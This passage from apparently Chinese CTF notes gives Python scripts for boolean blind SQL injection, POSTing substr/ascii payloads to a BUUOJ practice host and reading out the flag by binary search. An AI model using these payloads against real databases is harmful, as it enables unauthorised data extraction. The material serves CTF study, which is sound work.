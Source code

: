 ```python
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break
        # print (f)
        flag += chr(f)
        print(flag)


exp()
print('flag=', flag)

```

+ POST

```python
# -*- coding:utf-8 -*-
"""
 @Author: J1am
 @File: 普通无过滤注入.py
 @Data: 2022/1/8 18:11
 @Month: 1月
"""
import requests
url = 'http://81689af7-4cd5-432c-a88e-f5113e16c7c1.node3.buuoj.cn/index.php'
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       #payload = 'http://d63d924a-88e3-4036-b463-9fc6a00f4fef.node3.buuoj.cn/search.php?id=1^(ascii(substr(database(),%d,1))=%d)#' %(i,mid)
       payload = "0^(ascii(substr((select(flag)from(flag)),%d,1))>%d)#" %(i,mid)
       datas = {
                     "id":payload
                }
       res = requests.post(url=url,data=datas)

       if 'girlfriend' in res.text:      # 为真时，即判断正确的时候的条件
           low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```

#### order by盲注

